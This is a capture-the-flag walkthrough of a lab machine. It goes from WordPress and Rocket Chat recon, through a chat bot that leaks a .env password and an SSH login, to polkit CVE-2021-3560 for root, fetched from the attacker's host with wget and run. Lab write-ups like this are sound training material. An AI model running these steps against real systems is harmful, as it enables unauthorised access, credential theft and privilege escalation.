### Task 1 

How many TCP ports are open on the remote host?

``nmap -sS <target_ip>``



### Task 2

What is the domain for the Wordpress blog?

For answering this, we will attempt checking the information coming from the headers. 

``curl -I <target_ip>``



We can se that the server is leaking information from the backend systems from the X-Backend-Server header that contains the hostname of the target IP.

### Task 3

Which 2019 CVE is the wordpress version vulnerable to?

First, we need to identify the version of wordpress. First, we add the domain to the host file by ``sudo vim /etc/hosts``



Then, we use wpscan, the WordPress security scanner, to find the version and any vulnerabilities. 



We found both the readme.html file location, which usually contains the wordpress version but the specific version was already identified. With a quick google search about the specific version we find the 2019 CVE.

### Task 4

What is the secret registration URL of the employee chat system?

We first need to enumerate the directories using gobuster dir.

``gobuster dir -u http://office.paper/ -w <word_list>``



Navigating to the index.php page we see some kind of chat system.



Going back to the CVE we previously found, this version could allow an unauthenticated user to view private or draft posts. Navigating to the page we also find this interesting post by the user Prinsonmike. Seems that we can use this wordpress vulnerability to access his draft hoping we can find this secret url.



We navigate ``http://office.paper/?static=1`` and exploit the vulnerability and find the secret url.



<!--truncate--> 

### Task 5

What is the name of the bot running on the Rocket Chat instance?

We need to first add to the hosts file the subdomain ``chat.office.paper`` so the ip get resolved. 

Navigating to the secret url we found on the previous task we see the registration form.



We register, and the go to the general channel where we see the name of the bot.



### Task 6

Which recyclops commands allows listing files?

In the "How to use me?" guide of the bot we see all the commands, including the one listing files.



### Task 7

What is the file name of the file that contains the configuration information of hubot running on the chat system?

Hubot is a framework to build chat bots. We will try to chat with recyclops, using the commands available to extract the information about the name of the file. Running ``list`` we see that we are on user dwight home directory. 



We go back to the direcotry with ``list ../`` and then list the directory hubot ``list ../hubot``.



Looking through the listed files and google searching hubot documentation to cross-reference, we see some files that could be possible like ``.env`` and ``external-scripts``. We see their contents, first ``file ../hubot/external-scripts.json`` is empty and then ``file ../hubot/.env`` is the one containing the configuration.



### Task 8

What is the password obtained from that configuration information?

From the ``.env`` file we obtained from the previous question, we find the password. 

### Task 9

Which regular user with a home directory exists on Paper other than rocketchat?

From the previous tasks, we saw that we where on the regular user dwight directory.

### Task 10

Submit the flag located in the dwight user's home directory.

Previously, when we listed the home directory, by running ``list ../`` we came accross the ``user.txt`` file. We try to see the contents and get the user flag by ``file ../user.txt`` but we get access denied. We try to ssh to the target ip with the username dwight ``ssh dwight@<target_ip`` and the password we found in the ``.env`` file and we are in! We get the user flag by ``cat user.txt``.

### Task 11

What is the polkit version on the remote host?

We first run ``cat /etc/os-release`` to find which os we are on and we see that we are on CentOS. Then we can run ``rpm -qa | grep polkit
`` to find the version of polkit.




### Task 12

What is the 2021 CVE ID for the vulnerability in this version of polkit related to bypassing credential checks for D-Bus requests?

Looking up for CVEs affecting the version of the polkit found, we find CVE-2021-3560 for the vulnerability that allows an unprivileged user to create an administrative user without authentication by abusing D-Bus and timing. 

### Task 13

In our machine, we clone the exploit from github https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation. Then, we open a http server on port 8080 using ``python3 -m http.server 8080``. From the remote server, we use wget to get the exploit script ``wget http://<host_ip>:8080/poc.sh``. We then ``chmod +x poc.sh`` and run the exploit as many times as needed to get the timing right. We follow the exploit's instruction and get a root shell as the secnigma user. 

We navigate to the root directory and obtain the root flag by ``cat root.txt``



